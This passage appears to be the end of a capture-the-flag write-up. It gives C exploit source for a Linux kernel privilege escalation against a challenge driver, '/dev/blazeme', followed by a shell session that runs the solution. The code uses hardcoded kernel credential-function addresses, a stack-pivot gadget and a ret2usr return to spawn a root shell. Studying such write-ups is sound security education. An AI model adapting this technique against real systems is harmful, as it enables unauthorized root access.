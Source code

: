 ```c
		"pushq %rsp; popq tf+24;"
		"mov %ss, %ax;"
		"pushq %rax; popq tf+32;"
	);
	tf.rip = &shell;
	tf.rsp = 0x5DFF0000;
}

static void restore() {
	asm(
		"movq $tf, %rsp;"
		"swapgs ;"
		"iretq;"
	);
}

static void root_shell() {
	lpe();
	restore();
}

int main() {
	commit_creds = (void*)0xFFFFFFFF81063960ull;
	prepare_kernel_cred = (void*)0xFFFFFFFF81063B50ull;
	save();
	// 0xffffffff814d2720: mov esp, 0x5DFFB7B0 ; ret  ;  (1 found)
	unsigned long *mem = mmap((void*)0x5DFF0000, 0x10000,
	PROT_READ | PROT_WRITE | PROT_EXEC, 0x32 | MAP_POPULATE | MAP_FIXED | MAP_GROWSDOWN, -1, 0);
	mem[0xB7B0 / 8] = (unsigned long)root_shell;

	unsigned long gadget[8];
	for(int i=0;i<8; ++i)
	gadget[i] = 0xffffffff814d2720ull;

	char chunk[64];
	strncpy(chunk, "AA", 2);
	strncpy(&chunk[2], (const char *)gadget, 62);

	int fd = open("/dev/blazeme", O_RDWR);
	while(1) {
		write(fd, chunk, 64);
	}

	return 0;

}
```

## Result
```sh
Welcome to Buildroot
buildroot login: blazeme
Password:
login: can't change directory to '/home/blazeme'
$ ls
bin         lib64       mnt         run         tmp
dev         linuxrc     opt         sbin        usr
etc         lost+found  proc        solve       var
lib         media       root        sys
$ id
uid=1000(blazeme) gid=1000(blazeme) groups=1000(blazeme)
$ ./solve
```

[^fops]: <https://chardoc.tistory.com/8>
[^fops_exploit]: <https://procdiaru.tistory.com/82>
[^slab_allocator]: <http://jake.dothome.co.kr/slub/>
[^copy_to_user]: <https://blog.naver.com/PostView.nhn?blogId=ryutuna&logNo=100184443085&proxyReferer=https%3A%2F%2Fwww.google.com%2F>